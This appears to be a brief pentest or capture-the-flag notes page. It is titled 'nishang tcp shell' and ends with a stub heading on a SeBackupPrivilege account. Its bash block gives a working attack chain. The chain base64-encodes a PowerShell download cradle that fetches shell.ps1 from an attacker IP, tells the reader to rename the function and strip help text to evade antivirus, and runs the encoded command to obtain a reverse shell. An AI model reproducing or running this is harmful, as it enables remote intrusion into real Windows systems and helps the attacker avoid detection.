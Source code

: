 

## nishang tcp shell

```bash
## nishang shell; Delete the help msg and change function name to bypass av
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## modify the ps file
## Delete the help msg and change function name to bypass av
Invoke-Test

## run to get shell.
powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==
```





![image-20221225165920513](./images/image-20221225165920513.png)



## seBackup

user jorden, SeBackupPrivilege enabled.
